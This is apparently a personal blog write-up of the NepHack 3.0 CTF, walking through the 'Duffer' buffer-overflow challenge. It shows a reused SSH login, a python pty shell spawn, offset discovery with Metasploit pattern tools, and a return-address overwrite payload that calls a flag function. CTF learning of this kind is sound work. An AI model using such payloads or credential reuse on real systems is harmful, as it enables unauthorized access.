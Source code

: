 # Nephack 3.0



Actually NepHack is one of the Biggest Hacking Competition of Nepal after [threatcon](https://threatcon.io/) which is especially CTF (Jeopardy type) competition which is held annually every year in K.U.( Kathmandu University), Dhulikhel, Nepal.
<!--more-->

## Introduction

Actually NepHack is one of the Biggest Hacking Competition of Nepal after [threatcon](https://threatcon.io/) which is especially CTF (Jeopardy type) competition which is held annually every year in K.U.( Kathmandu University), Dhulikhel, Nepal. But unfortunately this year due to some internal problem of K.U NepHack 3.0 was held in premises of [Cynical Technology](https://cynicaltechnology.com/) .

Event happened at Jan 25–26,2020 but unfortunately I wasn’t able to attend due to my work . Luckily they decided to went live for 48 hours to play online(nephack.io)after 2 days of the event and I would like to thank Cynical Technology for it.

During that live session, I was able to secure first position but at last hour i.e. 10:00 pm I was downgraded to 2nd position by team caphilates but the score was equal. I would like to Congratulate team caphilates for winning the NepHack 3.0 online.

![Score_board](public/images/score_board.png)


Here I would like to especially focus on the Pwnable challenges and talking about my background,I am active at Hack The Box( HTB) since 6 months. You can see my profile here [gr4n173](https://www.hackthebox.eu/profile/60443).

## PWNABLE->>CHALLENGES

![challenge](public/images/challenges_pwn.png)


I was able to solve two challenges only: Shadow and Duffer. Among them I liked Duffer box because it was related to Buffer-overflow.

## Duffer
It was the time when our team decided to organize CTF outside the Valley. We created many challenges for CTF and event was successfully conducted you can see details here [VECTORCTF(CoTS)](https://www.facebook.com/events/424450345158496/?active_tab=discussion). Among them I had created one of the challenges related to bof and luckily same challenge was in NepHack 3.0 which was of 496 points named Duffer.

![duffer](public/images/duffer.png)

They have given ssh.log file on

```bash
root@gr4n173:~$cat ssh.log
```

I got `ssh.log`. part file there I can see the ssh login attempt log file by different user . I got the credentials from one of the members *maskop9* from winning team(me0w) during live event . Credential is hacker/cynical1 with local IP `192.168.10.189`. Since IP given was local IP, I wasn’t able to ssh into that user so I had to figure out other ways and I noticed I had a shell from shadow challenge which was of `phindrella` user and I am going to publish next Writeup where I will explain how I got `phindrella` user and it’s shell.

Then, I tried with that credentials as

![shell](public/images/shell.png)

Fig:-*Into hacker shell*


I am able to login hacker shell and since I was in tty shell I had to spawn that shell so I used

```
root@gr4n173:~$python -c ""import pty;pty.spawn(‘/bin/bash’)"
```

As challenge have given a description about the location at /hom/pax and I got two files.

![docker1](public/images/docker1.png)

Fig:- *hacker_shell*

one is vuln executable and other is flag.txt which doesn’t have permission to read .Since vuln file is ELF file so I generally read that file with gdb but my bad organizer doesn’t have gdb installed in that shell. So first I have to download that file to my localhost for that I used scp

```
root@gr4n173:~$scp hacker@iZa2dh0wn9s9aolc3csaudZ:/home/pax /root/Downloads/
```

this way I was able to download to my localhost and I had given the execute permission to that file.

```
root@gr4n173:~$chmod +x vuln
```

I had gdb install so used this command to read vuln file

```
root@gr4n173:~$gdb -q vuln
```

![gdb](public/images/gdb_shell.png)
 
 
Fig:- *vuln run normally*
 
		
nothing happened there and I entered many random text and I got `segmented fault`.

![sigfault](public/images/sigfault.png)

Now, I had to find the offset after which `SIGSEGV` fault occurred. I mostly use one of my favorite method to find offset as

```
root@root:$ /usr/share/metasploit framework/tools/exploit/./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

root@root:$ /usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 0x0000555555554830
[*] Exact match at offset 40
This way I got the offset. Then, I had to find the function where flag is located. For that I searched every functions and got this
```

![function](public/images/function_shell.png)

fig:-*Functions names*

there I got `fLog()` function as noticeable and had to find the address of this function as

![address](public/images/address_log.png)

Fig:- *Address of fLog*

Since that is the address before running the file and after running I got this

![address](public/images/fLog_function.png)

Fig:-*Address of fLog after running file*


Since all the address should be used in `Little Endian` format. There is small story about `Little Endian` if you are interested you can read from [here](https://www.ling.upenn.edu/courses/Spring_2003/ling538/Lecnotes/ADfn1.htm) 

Address is `0x8a4755555555` in Little Endian format and

> offset = 40
> 
> address to call = 8a4755555555

So my final payload was:

```
root@gr4n173:~$python -c “print(‘A’*40 + ‘\x8a\x47\x55\x55\x55\x55’)” | ./vuln
```

![flag](public/images/final_one.png)

Fig:- *Flag*

This way I got the flag as `cynical_flag{hacker_kto_mah}` and got 495 points.

I wanted to thank all readers for being with me through my post and I will be posting other walkthrough of NepHack 3.0 challenges soon.
At last, I would like to acknowledge brother [@maskop9](https://twitter.com/maskop9) for helping through out the competition and other helping hands along with the organizer Cynical Technology for awesome platform seems like they too have bugbounty platform as bugv.io :)




